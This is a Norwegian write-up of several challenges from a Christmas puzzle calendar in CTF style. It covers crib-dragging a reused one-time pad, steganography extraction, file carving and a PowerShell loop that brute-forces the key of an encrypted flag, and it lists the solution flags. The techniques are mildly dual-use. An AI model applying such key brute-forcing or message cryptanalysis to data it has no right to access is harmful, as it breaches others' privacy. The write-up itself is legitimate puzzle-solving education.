$ file .sys
.sys: Linux Compressed ROM File System data
$ cramfsck -x bar .sys
$ ls bar
guardians.jpg
$ strings -10 guardians.jpg | grep {
CFG{WhyrYnzn}
$ echo "CFG{WhyrYnzn}" | tr 'A-Za-z' 'N-ZA-Mn-za-m' # Rot13
PST{JuleLama}
```

**Løsning: PST{JuleLama}**

# 12 Ugler i grøten
> God søndag! Det er fanget opp tO krypterte meldinger som ble sendt under lunsjgrøTen i dag. Det vekker mistanke, siden alle alvebetjenter elsker grøt og aldri vil gå gliPp av en lunsjgrøt. Se de krypterte meldingene nederst i mailen. En dyktig alvebetjent har allerede funnet noen biter av klarteksten til melding 1:
```
"- - - k r o e l l - - - - - - - - - - - - - - - - - - - - - - - k r o e l l - - - - - - - -"
``` 
> og noen biter av klarteksten til melding 2:
```
"- - - - - - - - - - - - - - - - p e n g w y n - - a - - o l - n - - - - - - - - - - - - - -"
```
> Kan du se om du klarer å finne resten av klarteksten til begge meldingene? Legger også ved en tabell over ascii-verdier, kanskje du får bruk for den.
> Melding 1:
```
00010101 00010100 00010011 00000000 00011101 00000011 00001010 00000010 00011100 00000011 00010101 00011001 00010111 00000001 00010001 00001001 00011111 00010010 00000100 00000000 00001001 00000111 00011010 00000000 00000001 00001110 00000000 00010101 00001011 00011111 00010000 00011000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
```
> Melding 2:
```
00010110 00001100 00000110 00000111 00001000 00000101 00001101 00001011 00000011 00011000 00011110 00001110 00010110 00001001 00010111 00001101 00011100 00010101 00001111 00010101 00010010 00010111 00011010 00001010 00011110 00000100 00000110 00000111 00001010 00000000 00010000 00000100 00011000 00011001 00000110 00001011 00000010 00001001 00000010 00001000 00011111 00001010 00011100 00010011 00000000 00011101
```
Vedlegg var: `ascii.pdf` (som vel viste seg å ikke ha noen signifikans?)

Bruken av store bokstaver i meldingen ga OTP, som kunne bety [One-time pad](https://en.wikipedia.org/wiki/One-time_pad). Etter litt googling,
viste det seg at det vi var ute etter var [cribdrag](https://github.com/SpiderLabs/cribdrag).

Gjorde om de binære meldingene til hex, og kjørte dette inn i Cribdrag

```sh
$ python xorstrings.py "151413001d030a021c031519170111091f12040009071a00010e00150b1f10180000000000000000000000000000" "160c060708050d0b03181e0e1609170d1c150f1512171a0a1e0406070a0010041819060b020902081f0a1c13001d"
03181507150607091f1b0b170108060403070b151b10000a1f0a0612011f001c1819060b020902081f0a1c13001d
$ python cribdrag.py 03181507150607091f1b0b170108060403070b151b10000a1f0a0612011f001c1819060b020902081f0a1c13001d
Your message is currently:
0	________________________________________
Your key is currently:
0	________________________________________
Please enter your crib: kroellparentes
0: "hjzbyjwhm~ecd{"
1: "sghpjky~inyumu"
2: "~uzckeozyro|cw"
*** 3: "lgibeskjedfrap"
*** 32: "skinnerimorgen"
Enter the correct position, 'none' for no match, or 'end' to quit: 3
Is this crib part of the message or key? Please enter 'message' or 'key': message
Your message is currently:
0	___kroellparentes_______________________
Your key is currently:
0	___lgibeskjedfrap_______________________
```
Så var det bare å fortsette til hele teksten var avslørt

```
Your message is: pstkroellparentesberlinerkranserkroellparentes
Your key is: skalgibeskjedfrapengwynomatsolenskinnerimorgen
```

**Løsning: PST{berlinerkranser}**

Et annet fint verktøy, var https://github.com/CameronLonsdale/MTP. Her kunne man lagre meldingene i en fil og kjøre denne kommandoen, som ga et fint brukergrensesnitt
man kunne teste ulike ord
```
$ mtp filmedhexverdier
```


Dekrypteringen ga også pad-key
```
6567676b6f6c6f6e7073746b726f656c6c706172656e746573657274656c756a6b726f656c6c706172656e746573
```
Denne kunne ta en runde i [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')&input=NjU2NzY3NmI2ZjZjNmY2ZTcwNzM3NDZiNzI2ZjY1NmM2YzcwNjE3MjY1NmU3NDY1NzM2NTcyNzQ2NTZjNzU2YTZiNzI2ZjY1NmM2YzcwNjE3MjY1NmU3NDY1NzM), som ga følgende fra hex:
```
eggkolonpstkroellparentesertelujkroellparentes
```
Så der var det et egg   

**Løsning: PST{erteluj}**

# 13 Har du tid

> Jeg vet at du har fri i dag, men om du har tid så kan du gjerne ta en titt på dette.
> Vi har gjort observasjoner av to (2) personer med tilknytning til Utlandia på ulike lokasjoner på Vestlandet. Personene oppholdt seg ved flere vannkraftverk i perioden 4-10. november, før de forlot landet.
> Basert på våre observasjoner og rapportering fra Etterretningstjenesten er personene trolig agenter fra Utlandia. Det mistenkes at agentene er medvirkende i en sabotasjeoperasjon mot et vannkraftverk i Norge.
> Gjennom koordinering gjennomfører Etterretningstjenesten innhenting av informasjon på de utenlandske agentene og deres intensjoner, da dette er utenfor vår jurisdiksjon.
> Følg situasjonen videre på deres platform ctf.cybertalent.no.
> Rapporter tilbake innhentet informasjon om aktørens planer mot norske mål, dersom du finner noe.

Nei, jeg har ikke tid! (Men måtte prøve litt allikevel, dog langt unna å løse oppdraget, [maks poeng 256](https://ctf.cybertalent.no/highscore))


# 14 Reinsdyr på villspor
> Fire av Julenissens favorittreinsdyr ble sluppet løs fra basen på Svalbard i går. Heldigvis er det sporing på reinsdyrene, så en av alvene i NPST har funnet en datamaskin og lastet ned sporingsdataen. Han klarer dessverre ikke å finne ut hvordan man får tak i GPS-filene.
> Kan du hjelpe han?
> Nb: Hvis du skulle finne noe mistenkelig i dataen, så rapporter tilbake med hva du fant, omkranset av PST{ og }.

Vedlagt var filen sporing.zip

```sh
$ unzip sporing.zip
Archive:  sporing.zip
  inflating: gps.7z
 extracting: lost_key.txt
  inflating: Rudolf.png
$ cat lost_key.txt
493
$ 7z x gps.7z
Enter password (will not be echoed):
```

Her trengte man altså et passord for å åpne `gps.7z`.

Kunne det være noe i det vedlagte bildet?


Lastet bildet opp til https://stegonline.georgeom.net/ og i det ene rødplanet fant man følgende tekst


```sh
$ 7z x gps.7z
Enter password (will not be echoed): floduR123
Reindeer_tracker.kml
```
`Reindeer_tracker.kml` kunne lastes opp i f.eks. Google Maps, og man fikk da følgende kart



Her hadde reinsdyrene tydeligvis vært og luftet seg på kryss og tvers på Svalbard. Zoomet man inn på rutene deres, kunne man se et systematisk mønster:


En kort, lang, kort, noe som minnet om [morse](https://en.wikipedia.org/wiki/Morse_code). Kort, lang, kort i morse blir bokstaven R.  Så da var det bare å
gå gjennom de ulike reinsdyrenes ruter i rekkefølgen Rudolf, Prancer, Comet. Det ga følgende kode

```
.-.  = R
..-  = U
-.   = N

..-. = F
---  = O
.-.  = R
.    = E
...  = S
-    = T

.-.  = R
..-  = U
-.   = N
```
**Løsning: PST{RUNFORESTRUN}**   


Om man kikket nøye etter i rødplanet som ga passordet til 7z-fila, kunne man se et underlig mønster i toppen av bildet. 


Brukte man f.eks. igjen https://stegonline.georgeom.net/ og brukte verktøyet
"Extract Data", kom [hex-representasjonen](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')&input=NTA1MzU0N2I0NTY3Njc1ZjUyNzU2NDZmNmM2NjQ1NzI1MjZmNjU2NDUwNjE2MTRlNjU3MzY1NmU3ZA) fram og man kunne lese eggets innhold

**Løsning: PST{Egg_RudolfErRoedPaaNesen}**

# 15 Kameraopptak
> Etter gårsdagens reinsdyrflukt bestemmer alvebetjent M. Nist seg for å sjekke kameraloggen. Dessverre ser det ut som om det bare eR blått og grØnt støy Der... Klarer du å finne ut noe mer fra opptaket?

Vedlagt var filen `opptak.gif`

Med samme finurlige storebokstav-hint, kunne det tyde på at man hadde å gjøre med noe som var i RØD-kanalen av bildet. Med hjelp av verktøyet [ImageMagick](https://legacy.imagemagick.org/Usage/color_basics/#separate), lot den røde kanalen seg separere fra resten av bildet:

```sh
$ convert opptak.gif -channel R -separate opptak_red.gif
```
Det ga 111 fragmenter, og kikket man i øverste venstre hjørnet per fragment, fant man tall og bokstaver. 



Disse kunne settes sammen til en rekke ASCII-koder. 

```
80 83 84 123 72 101 114 86 97 114 68 101 116 73 107 107 101 77 121 101 197 83 101 71 105 116 116 46 46 46 125
```

[Som ga løsningsordet](https://gchq.github.io/CyberChef/#recipe=From_Decimal('Space',false)&input=ODAgODMgODQgMTIzIDcyIDEwMSAxMTQgODYgOTcgMTE0IDY4IDEwMSAxMTYgNzMgMTA3IDEwNyAxMDEgNzcgMTIxIDEwMSAxOTcgODMgMTAxIDcxIDEwNSAxMTYgMTE2IDQ2IDQ2IDQ2IDEyNQ):

**Løsning: PST{HerVarDetIkkeMyeÅSeGitt...}**

# 16 Ødelagt julesang
> Alvene på verkstedet klager over dårlig kvalitet på noen av julesangene som spilles over høyttalerne. Særlig denne sangen, "Rudolph, the Red-Nosed Reindeer", har mottatt mange klager. Kan du se om du finner ut hva som er galt?
> Det spilles et bredt spekter av julesanger på verkstedet, men denne sangen er egentlig en favoritt blant alvene. Da er det jo ekstra synd at lydkvaliteten er dårlig.

Vedlagt var filen `rudolf.wav`. Hørte man på den, var det som beskrevet, "[Rudolph, the Red-Nosed Reindeer](https://en.wikipedia.org/wiki/Rudolph_the_Red-Nosed_Reindeer_(song))", men med en del skurr i midten av sangen. 
For alle lyd-relaterte oppgaver, kan det være lurt å bruke verktøyet [URH](https://github.com/jopohl/urh), Universal Radio Hacker. Tok man inn fila i URH
og endret Signal View til Spectogram, kom flagget klart fram


**Løsning: PST{H4KKIPL4PL4T4}**

# 17 Klokt trasévalg
> Hei, nå Er det jo baRe en uke igjen til jul så vi må begynne å få på plass den nye pakkefordelingSruta. avdelingen for optimalisering og ruteplanlegging har jobbet hardt med å finne en trasé, og ga meg i går en Cd Hvor den foreløpige ruten er lagrEt. de fortalte meg at de hadde en baktanke med trasén, men ville ikke fortelle meg høyt hva dette var (i frykt for avlytting), så dette skulle komme frem fra fiLen. jeG sliteR med å tolke hvA de har tenkt. kunne du hjulPet meg?
> mvH mellomleder

Vedlagt var filen `trasé.txt`

Storebokstav-hint ga antydninger om at det var snakk om en [Herschel graph](https://en.wikipedia.org/wiki/Herschel_graph). Og fila inneholdt en mengde koordinater. 
Graf-teori orket jeg ikke sette igang med sånn umiddelbart, så lot den ligge mens jeg spiste litt mer potetgull. Det var lurt, for følgende hint kom senere på kvelden

> Oppdatering angående gårsdagens Mail. En alvebetjent har funnet alle koordinatene på kartet og hentet ut de tilhørende byene. Kan dette være til hjelp?

> [-11.725769, -61.778000] = [Rolim de moura](https://www.google.com/maps/place/11%C2%B043'32.8%22S+61%C2%B046'40.8%22W/@-11.7257637,-61.7801887,17z/data=!3m1!4b1!4m5!3m4!1s0x0:0x61e6973cf0f5b51b!8m2!3d-11.725769!4d-61.778)   
> [20.145221,-75.215909] = [Guantanamo](https://www.google.com/maps/place/20%C2%B008'42.8%22N+75%C2%B012'57.3%22W/@20.145226,-75.2180977,17z/data=!3m1!4b1!4m5!3m4!1s0x0:0xbfbe1403d379b5aa!8m2!3d20.145221!4d-75.215909)   
> [52.300000,76.95000] = [Pavlodar](https://www.google.com/maps/place/52%C2%B018'00.0%22N+76%C2%B057'00.0%22E/@52.3,76.95,17z/data=!3m1!4b1!4m5!3m4!1s0x0:0xcd2b5f6bacaf7ef4!8m2!3d52.3!4d76.95?hl=en)   
> [23.101397,88.393575] = [Ektapur](https://www.google.com/maps/place/23%C2%B006'05.0%22N+88%C2%B023'36.9%22E/@23.101397,88.393575,17z/data=!3m1!4b1!4m5!3m4!1s0x0:0xfa2c6cb9b3fabd88!8m2!3d23.101397!4d88.393575?hl=en)   
> [-34.417148,19.248128]} = [Hermanus](https://www.google.com/maps/place/34%C2%B025'01.7%22S+19%C2%B014'53.3%22E/@-34.417148,19.248128,17z/data=!3m1!4b1!4m5!3m4!1s0x0:0x4f85bdd040f396af!8m2!3d-34.417148!4d19.248128?hl=en)   
> [-15.4825, 128.122778] = [Wyndham](https://www.google.com/maps/place/15%C2%B028'57.0%22S+128%C2%B007'22.0%22E/@-15.4825,128.122778,17z/data=!3m1!4b1!4m5!3m4!1s0x0:0xc15a499d272f49b4!8m2!3d-15.4825!4d128.122778?hl=en)   
> [78.216667,15.633333] = [Longerbyen](https://www.google.com/maps/place/78%C2%B013'00.0%22N+15%C2%B038'00.0%22E/@78.216667,15.633333,17z/data=!3m1!4b1!4m5!3m4!1s0x0:0xf534da045d7e1890!8m2!3d78.216667!4d15.633333?hl=en)   
> [5.041066,7.919476] = [Uyo](https://www.google.com/maps/place/5%C2%B002'27.8%22N+7%C2%B055'10.1%22E/@5.041066,7.919476,17z/data=!3m1!4b1!4m5!3m4!1s0x0:0xe1961bd17819d3f1!8m2!3d5.041066!4d7.919476?hl=en)   
> [45.424722,-75.695000] = [Ottawa](https://www.google.com/maps/place/45%C2%B025'29.0%22N+75%C2%B041'42.0%22W/@45.424722,-75.695,17z/data=!3m1!4b1!4m5!3m4!1s0x0:0xacd1e6153e42b4eb!8m2!3d45.424722!4d-75.695?hl=en)   
> [21.150000,79.083333] = [Nagpur](https://www.google.com/maps/place/21%C2%B009'00.0%22N+79%C2%B005'00.0%22E/@21.15,79.083333,17z/data=!3m1!4b1!4m5!3m4!1s0x0:0xcede8aa5a2691ff4!8m2!3d21.15!4d79.083333?hl=en)   
> {[17.083333,-96.750000] = [Oaxaca](https://www.google.com/maps/place/17%C2%B005'00.0%22N+96%C2%B045'00.0%22W/@17.083333,-96.75,17z/data=!3m1!4b1!4m5!3m4!1s0x0:0xe7df72091e5e81a0!8m2!3d17.083333!4d-96.75?hl=en)   

Vanskelig å skjønne hva dette hadde å gjøre med en Herschel graf, men krøllparentesene i oversikten ga noen hint. [Hermanus](https://www.google.com/maps/place/34%C2%B025'01.7%22S+19%C2%B014'53.3%22E/@-34.417148,19.248128,17z/data=!3m1!4b1!4m5!3m4!1s0x0:0x4f85bdd040f396af!8m2!3d-34.417148!4d19.248128?hl=en) var kanskje siste bokstav i flagget?
Og da måtte vel [Oaxaca](https://www.google.com/maps/place/17%C2%B005'00.0%22N+96%C2%B045'00.0%22W/@17.083333,-96.75,17z/data=!3m1!4b1!4m5!3m4!1s0x0:0xe7df72091e5e81a0!8m2!3d17.083333!4d-96.75?hl=en) representere første bokstav etter det sedvanlige `PST{`?
Så bokstavene `PST` måtte være der et sted også, men det var de ved første øyekast ikke. Tok man forbokstaven i alle bynavn, satt man igjen med `RGPEHWLUONO`. 
Her ble det mye prøving å feiling, men til slutt så ga [ROT-4](https://gchq.github.io/CyberChef/#recipe=ROT13(true,true,false,4)&input=UkdQRUhXTFVPTk8) av ordet noen bokstaver
som inneholdt `PST`, nemlig `VKTILAPYSRS`.

Vi visste at flagget begynte med PST, det ga oss `VKILAYSR` igjen. Og siden det jo var noen hint om krøllparenteser også, så fikk vi `PST{S......L}` og `VKIAYR` gjenstod. En del stokking av bokstaver ga flagget.

**Løsning: PST{SKYRIVAL}**

Meget søkt løsning på denne oppgaven. Kjipt med så forvirrende sidespor.

# 18 Grønne firkanter
> Alvdelingen for nettverksoperasjoner har utført en hemmelig nettverksoperasjon mot SPST. De har snublet over et "git repository", men de synes det er noe merksnodig med det. Alv en eller annen grunn så mener Alvdelingen for tekniske undersøkelser at det kan ha noe med "grønne firkanter" å gjøre, hva nå enn det betyr.
> Kan du sjekke det ut?
> Om du trenger hjelp så kunne du kanskje spurt alvdelingen for åpne kilder - de tar sikkert en titt på Github profilen til personen som "comitter" i repoet, kanskje det ligger et hint der.

Vedlagt var filen `groenne-firkanter.zip`

``` 
$ unzip groenne-firkanter.zip
$ ls -a
.git                  groenne-firkanter.zip
$ cat .git/config
[user]
    name = Underleder
    email = underleder@protonmail.com
```

Kikket man på [GitHub-profilen til Underleder](https://github.com/underleder), så man følgende


En masse, fine, grønne firkanter som representerte git commit-loggen til Underleder. Sjekket man `.git`-katalogen i den vedlagte fila, var det mange hundre commits der.
`Underleder` var `author` på alle commits, men dato var langt fram i tid: 2022 og 2023. Fant ut at jeg kunne legge til meg selv som committer og pushe til eget repo 

```
git remote add origin git@github.com:waperon/bar.git
git filter-branch --env-filter 'export GIT_AUTHOR_NAME="waperon" export GIT_AUTHOR_EMAIL="w4peron@gmail.com"' --tag-name-filter cat -- --branches --tags
git push
```

Da dukket de fine firkantene opp på egen GitHub-profil:


**Løsning: PST{GET_CLEAN_GO_GREEN!}** 

# 19 Chimney Chopper
> Nissen forsøker å være mer produktiv i år, og unngå å gå ned i feil pipe. For å sørge for spe-serialisert levering har alvene ordnet en helt ny leveransemetode for denne pakkeleveringen.
> Nå handler det bare om å finne riktig pipe! Og hva var det han ønsket seg igjen...?

Vedlagt var filene `Chimney_Chopper.ps1` og `Chimney_Client.ps1`

Senere på kvelden kom ytterligere en melding

> Vi har fått ny informasjon som kan kaste lys over pipevalget. Alvene sier at all relevant informasjon er å finne i Chopper, men kanskje du må prøve et par adresser før du får lastet riktig adresse.

Om jeg tolket det rett, trengte man kun se på innholdet i `Chimney_Chopper.ps1`. Usikker på hva koden skulle gjøre, var noe med en nisse opp og ned i en pipe. Tut, tut! 

> Software for pipe-intrusjon og rekognosering. Kjør Chopper først, så klient

Her gjaldt det å finne rett key for å "finne rett pipe" og dekryptere flagget. Ikke rett fram å kjøre PowerShell på en Mac, men heldigvis finnes det støtte

```sh
$ brew install powershell
$ /usr/local/microsoft/powershell/7/pwsh;
```

Lagde en loop rundt det som viste seg å være den signifikante koden i `Chimney_Chopper.ps1`.

```PowerShell
$ErrorActionPreference = "SilentlyContinue"
for ($num = 15000 ; $num -le 25000 ; $num++) {
    $Payload = [Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes($num))
    $Loadstring = [Text.Encoding]::Utf8.GetString([Convert]::FromBase64String($Payload))
    $addressLookup = (Get-FileHash -InputStream ([IO.MemoryStream]::new([byte[]][char[]]$Loadstring)) -Algorithm SHA384).hash
    $Encrypted_Flag = "76492d1116743f0423413b16050a5345MgB8AGUAbwBRAEwAWQB1ADIARQB5AEEAZgB2AHIAWAB4ADQAdgA5AHIAQwBZAEEAPQA9AHwANQAxAGUAZQAxAGUAMABhADUAOAAwADMAZgBlADkAZQA3ADMANQA4AGIAZAAzADAAYQA5ADYANQA4ADMAZABhAGEAOABmADgANQAxADAANAAwADMAMwA5ADkAYQA4AGIAMABkAGQAMgA0ADIANgAyAGEAZgBkADUAZgBjADAAZQBhADAAMAAxADkAZQA0ADMAMwBkADIAMQA5ADIAMgA0ADcAMgA2AGUANABlAGQAYQBkAGYAYQA3ADQANAA5ADgA"
    $key = [byte[]]($addressLookup[0..15] -join "").ToCharArray()
    try {
        $ss = ConvertTo-SecureString -String $Encrypted_Flag -Key $key
        if ($ss) {
            Write-Host "Riktig pid/key: $num"
            $way = [System.Runtime.InteropServices.Marshal]::SecureStringToGlobalAllocUnicode($ss)
            $decoded = [System.Runtime.InteropServices.Marshal]::PtrToStringUni($way)
            Write-Host "Korrekt adresse funnet! Deploy julegaver " -ForegroundColor Magenta
            Write-Host $decoded -ForegroundColor Yellow
            Exit
        }
    }
    catch {}
}
```

Kjørte man programmet, fikk man dekryptert og flagget dukket opp
```
PS> ./FinnFlagg.ps1
Riktig pid/key: 19560
Korrekt adresse funnet! Deploy julegaver
PST{Nissen_i_pipa}
```

**Løsning: PST{Nissen_i_pipa}**

# 21 Mulig lekkasje
> NPST's sikkerhetssystemer er satt til øverste beredskap nå som jula nærmer seg, og den ene alvebetjenten oppdaget en melding som noen prøver å skjule. Kan du ta en nærmere titt på denne?

Vedlagt var filen `brev.txt`, som tilsynelatende inneholdt klartekst

```
$ cat brev.txt
Hei på  deg,
Lenge  siden  sist, så jeg  tenkte jeg  skulle  sende en liten hilsen!
...
Etter noen dager på kjøkkenet har vi nå skap og frysere fulle av Napoleonskake, 
Ustekt cookie dough, Lefser, Lussekatter, Berlinerkranser, Ristopper, Eplekake, 
Delfiakake, Doble sjokoladeflarn, Eierschecke, Tyske skiver, Eplekake, Goro og Nonnetter
```

Så man nøyere etter, viste det seg at filen inneholdt en del av disse tegnene:
```
U+200C	e2 80 8c	 NON-JOINER
U+200D	e2 80 8d	ZERO WIDTH JOINER
```

Plukket vi ut de store bokstavene fra beskrivelsen av alt det gode de hadde på kjøkkenet, fikk vi [NULLBREDDETEGN](https://en.wikipedia.org/wiki/Zero-width_non-joiner).

La vi inn teksten på https://330k.github.io/misc_tools/unicode_steganography.html, fikk vi

> Jeg har planen klar!   
> De har nettopp delt ut oversikt over hvor nissen må stoppe og mate reinsdyrene underveis på ruta.
> 
> Her er det muligheter for å ødelegge!   
> Jeg holder dere oppdatert   
> 
> -M   
> PST{ReadingBetweenTheLetters}

**Løsning: PST{ReadingBetweenTheLetters}**

# 22 Mistenkelig rute
> Som du sikkert er klar over har de ansatte hos oss mulighet til å trene to timer i arbeidstiden i løpet av uken. Dette er et tilbud mange benytter seg av, spesielt etter at vi startet med utlån av GPS klokker til alle ansatte. De mest ivrige tar tar også med seg klokkene hjem i helgene. Ofte er dette ansatte med stor glede av sosiale medier, som liker å dele opplevelser med andre. Vi har spesielt lagt merke til et økt bruk av Instagram i arbeidstid.
> Da en oppmerksom alvebetjent tok imot en klokke i går, fant hun en rute hun syns var veldig mistenkelig og rapporterte den inn. Det mistenktes at personen som lånte denne klokka kan ha hatt kontakt med en pingvin vi holder ekstra øye med. Legger ved både rute som ble funnet på klokka og nylige bevegelser gjort av pingvinen. Kan du ta en tit å se om det har skjedd noe mistenkelig?

Vedlagt var filene `aktivitet_pingvin.kml` og `klokke_7_18_12_21.kml`

Dette var to KML-filer man kunne laste opp i Google Maps. De inneholdt to kryssende ruter rundt Svalbard Global Seed Vault og en henvisning til Instagram i teksten. Instagram-brukeren chiliwilly1234 [hadde vært der 18/12-2021](https://www.instagram.com/p/CXniLlloNGv/)



På [profilen hans](https://www.instagram.com/chiliwilly1234/) stod flagget


**Løsning: PST{utpaaturaldrisur123}**

# 23 Sabotasje
> Alvene i sledegarasjen rapporterer om at noen har tuklet med julegaveruta som er lagt inn i slede-GPSen. Det er kritisk fordi det ikke er mulig å overstyre sledens GPS-kurs under flyturen. Det har visst blitt lagt til et stopp på Antarktis, rett utenfor SPST sitt hovedkvarter, og jeg (Julenissen) er redd for at SPST planlegger å rappe alle gavene fra sleden på selveste julaften.
> I slede-GPS-loggen er det lagt igjen en kort beskjed: "Ikke god jul, hilsen M".
> Det er derfor høy prioritet å finne ut hvem "M" er, før "M" klarer å utrette mer ugagn. Mellomleder har skrytt av din innsats denne førjulstiden, så jeg vil derfor betro denne viktige oppgaven til nettopp deg. Jeg personlig har ikke tid, for jeg skal først på gløggsmaking og så skal jeg se Grevinnen og Hovmesteren. Du blir gitt tilgang til kontoret mitt i kveld for å lete gjennom papirer og se om du klarer å finne ut hvem rakkeren er. Navnet rapporteres tilbake til meg (du må selv pakke navnet inn i formatet pst{}).
> Dette oppdraget er gradert "Temmelig Hemmelig", så ikke fortell om dine funn til noen andre enn meg personlig.

Vedlagt var fila `Julenissens_kontor.png`


Dette bildet viste seg å inneholde en hel masse annet rart

```sh
$ zsteg Julenissens_kontor.png
[?] 5120167 bytes of extra data after image end (IEND), offset = 0x866696
extradata:0         .. file: Zip archive data, at least v2.0 to extract, compression method=deflate
$ binwalk -e Julenissens_kontor.png

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 3840 x 2160, 8-bit/color RGBA, non-interlaced
41            0x29            Zlib compressed data, default compression
8808086       0x866696        Zip archive data, at least v2.0 to extract, uncompressed size: 2829558, name: julekort.png
8808165       0x8666E5        PNG image, 1920 x 1080, 8-bit/color RGBA, non-interlaced
8808219       0x86671B        Zlib compressed data, compressed
11638599      0xB19747        Zip archive data, at least v2.0 to extract, uncompressed size: 2173935, name: Barndomsfoto.png
11638682      0xB1979A        PNG image, 1920 x 1080, 8-bit/color RGBA, non-interlaced
11638736      0xB197D0        Zlib compressed data, compressed
13813293      0xD2C62D        Zip archive data, at least v2.0 to extract, uncompressed size: 1015, name: note_to_elf.txt
13813955      0xD2C8C3        Zip archive data, at least v2.0 to extract, uncompressed size: 120574, name: snille_og_slemme.pdf
13928231      0xD48727        End of Zip archive, footer length: 22
```
Fila `note_to_elf.txt` inneholdt følgende
> En alvebetjent kom innom kontoret nettopp, og delte sin hypotese om hvem
som kan stå bak de uheldige hendelsene denne førjulstiden. Jeg skriver det ned
slik at jeg husker det til senere, for nå må jeg straks løpe for å rekke
lunsjgrøten. Alvebetjenten tror at den skyldige har et navn på M, fordi
vedkommende kaller seg for "M". Videre mente alvebetjenten at den skyldige må
være ansatt i NPST, av flere grunner. Først og fremst fordi vedkommende lekket
konfidensiell informasjon om pakkefordelingsruta tidlig i desember. Men også
fordi vedkommende kommuniserte med SPST fra vår stue.   
> Spørsmålet er da hvorfor en NPST-ansatt vil snu ryggen til julen og samarbeide
med SPST. Alle NPST-ansatte er "snille", og ikke "slemme". Hvis en alv skulle
hoppe over til "slem"-listen, så mister alven umiddelbart alvtorisasjonen og
dermed også jobben. Så hva kan være grunnen til at en "snill" alvebetjent ønsker
å sabotere årets julegavedistribusjon?
Det klarte ingen av oss å svare på.

Og fila `snille_og_slemme.pdf` inneholdt en lang liste med barn hvis navn startet med M



Jeg skjønte ikke helt logikken, men den eneste som hadde en unik kombinasjon av de tre kolonnene `Snill`, `Mottatt gave` og `Ansatt i NPST` var `Maximilian` som
hadde `Ja`, `Nei`, `Ja` i de tre kolonnene. Det var tydeligvis synderen.

**Løsning: PST{Maximilian}**

Men dette kunne jo ikke være alt? Det var jo en god del mer i det julekortet. De to andre bildene så slik ut


Sjekket man julekortet, fant man følgende i G0: 
 


Åpenbart et egg i julekortet
```
$ zsteg julekort.png
imagedata           .. file: Tower/XP rel 2 object not stripped - version 512
b1,r,lsb,xy         .. text: "tikk... takk... tikk... takk...kn"
b1,b,lsb,xy         .. text: "lang kort lang kort"
```

Og tok man "Extract Data" fra https://stegonline.georgeom.net/, fant man følgende også (skulle gjerne brukt `zsteg` for å få ut dette også, men fant ikke ut hvordan det kunne gjøres)

> R2: hvor peker klokka mon tro   
> R1: ikke tall men antall streker langs klokka   

Litt kryptisk det der. Klokkene står på 15:05 og 16:06. Teller man antall streker på  klokka ("ikke tall men antall streker...") blir det 15, 5, 20 og 6. Og sorterer man etter "lang kort lang kort"
blir det 5, 15, 6, 20. Det var også løsningen

**Løsning: PST{Egg_515620}**

# 24 Redd jula
> Selv om vi har funnet den ansvarlige må vi fortsatt fikse opp i ruta som er blitt tukla med, men Julenissen har glemt passordet til slede-GPSen.
